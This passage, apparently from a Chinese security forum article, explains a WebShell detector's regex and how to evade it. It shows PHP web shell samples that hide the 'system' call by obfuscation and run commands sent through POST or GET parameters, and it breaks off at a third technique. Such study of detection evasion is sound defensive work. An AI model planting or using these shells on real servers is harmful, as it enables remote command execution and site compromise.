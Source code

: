 没想到第一个WebShell就翻车了，这时候的我心理活动：咦不应该啊？  
然后我又把整个正则匹配式看了一遍，找到了关键的正则匹配式：

```perl
'\$[\w-_\'\\[\\]{}\.\$\*/|]+(\s|\/\*.*?\*\/)*\(.*?\)'
```

这个正则表达式要怎么理解呢，我们可以拆开用以下四部分来分析：

```perl
\$                         # 第一部分
[\w-_\'\\[\\]{}\.\$\*/|]+  # 第二部分
(\s|\/\*.*?\*\/)*          # 第三部分
\(.*?\)                    # 第四部分
```

- 第一部分: 最开头匹配符号 `$`
- 第二部分：匹配一个或多个字符，这些字符可以是：字母数字下划线、单引号、反斜杠、方括号、花括号、点、`$`符号、星号、斜杠、竖线
- 第三部分: 匹配零个或多个空白字符（\\s）或注释（/ / 形式的内容）。
- 第四部分: 用非贪婪模式匹配括号内的任意字符

那现在，让我们将这些部分组合起来，可以清楚地理解整个正则表达式的匹配内容：

- 第一部分: 匹配以 `$` 符号开头的单词（变量名）
- 第二部分: 匹配一个或多个允许的字符，形成变量名的其余部分，比如 `$f` 或者 `$_`
- 第三部分: 匹配零个或多个空白字符或注释，应该是防止中间掺杂垃圾字符干扰正则
- 第四部分: 匹配括号内的任意字符，相当于不检测括号内的内容

**相当于检测到外部变量想要作为函数执行括号内的内容就拦截，那这条正则匹配式能拦截啥呢？比如：**

![跨越十年-7.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-588316eb84360d93e408782319a78f4337388322.png)

一、自定义函数混淆字符串类型：

```php
function confusion($a){
    $s = ['A','a','b', 'y', 's', 's', 'T', 'e', 'a', 'm'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}
$f = confusion(976534);         //sysTem（高危函数）
$f($_POST['aabyss']);           //sysTem($_POST['aabyss']);
```

二、一维数组绕过：

```php
$f = substr_replace("systxx","em",4);         //system（高危函数）
$z = array($array = array('a'=>$f($_GET['aabyss'])));
var_dump($z);
```

三、异或+变换参数绕过：
